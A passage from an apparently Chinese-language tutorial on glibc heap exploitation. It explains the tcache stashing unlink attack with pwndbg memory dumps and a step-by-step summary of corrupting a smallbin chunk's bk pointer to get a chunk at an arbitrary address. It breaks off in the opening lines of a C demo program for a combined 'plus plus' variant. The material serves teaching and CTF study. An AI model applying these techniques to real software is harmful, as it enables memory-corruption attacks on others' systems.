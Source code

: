 其得保证`tc_victim-&gt;bk`是一个可写指针，此示例程序是`&amp;victim`，是其他的也是可以的。

```
pwndbg&gt; x/30gx 0x555555558050
0x555555558050: 0x0000000000000000      0x0000000000000000
0x555555558060 &lt;victim&gt;:        0x00007ffff7fbac30      0x0000555555558060
0x555555558070 &lt;victim+16&gt;:     0x0000000000000000      0x0000000000000000
```

```
pwndbg&gt; p bck
$22 = (mchunkptr) 0x555555558060 &lt;victim&gt;
```

执行完毕后，获得一个目标地址的chunk进入了tcache，也达到了阈值，也就退出了 stash 循环。<br>
并且再次申请一下就得到一个目标地址的chunk。

```
(0x60)   tcache_entry[4](7): 0x555555558060 --&gt; 0x555555559de0 --&gt; 0x555555559440 --&gt; 0x5555555593e0 --&gt; 0x555555559380 --&gt; 0x555555559320 --&gt; 0x5555555592c0
```

#### <a class="reference-link" name="%E5%B0%8F%E6%80%BB%E7%BB%93"></a>小总结
- 先放入 2 个 Chunk 到 Smallbins，5 个 Chunk 到对应的 tcache
<li>在不破坏 fd 的情况下，**将后放入 Smallbins 的 Chunk 的 bk 设置为目标地址减 0x10，同时要将目标地址加 0x8 处的值设置为一个指向一处可写内存的指针；**
</li>
- 接着用calloc触发stash 机制，会将后放入 Smallbins 的 Chunk 被放入 tcache，此时的 bin-&gt;bk 就是目标地址减 0x10，相当于把目标地址减 0x10 的指针链接进了 smallbins 中。
- 之后不满足终止条件，会进行下一次的 stash，这时的 `tc_victim` 就是目标地址。接下来由于原来的设置，目标地址加 0x8 处的指针是一个可写指针，保证stash流程正常走完。
- 最后目标地址就会被放入 `tcache_entry`的头部，stash 满足终止条件而终止。
重点在攻击最后一个进入smallbin的bk指针，让其指向目标地址-0x10的地方，并且**保证目标地址+8的位置为一个可写的指针。**

### `tcache_stashing_unlink plus plus`

也就是可以同时实现上面的2个功能。
- 任意地址分配一个chunk
- 任意地址写入一个`main_arena`附近的值
#### <a class="reference-link" name="%E7%A4%BA%E4%BE%8B%E4%BB%A3%E7%A0%81"></a>示例代码

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;inttypes.h&gt;

static uint64_t victim[4] = `{`0, 0, 0, 0`}`;
static uint64_t victim2 = 0;

int main(int argc, char **argv)`{`
    setbuf(stdout, 0);
    setbuf(stderr, 0);

    char *t1;
    char *s1, *s2, *pad;
    char *tmp;

    printf("You can use this technique to get a tcache chunk to arbitrary address, at the same time, write a big number to arbitrary address\n");

    printf("\n1. need to know heap address, the victim address that you need to get chunk pointer and the victim address that you need to write a big number\n");

    tmp = malloc(0x1);
    printf("victim's address: %p, victim's vaule: [0x%lx, 0x%lx, 0x%lx, 0x%lx]\n", 
        &amp;victim, victim[0], victim[1], victim[2], victim[3]);
    printf("victim2's address: %p, victim2's value: 0x%lx\n",
```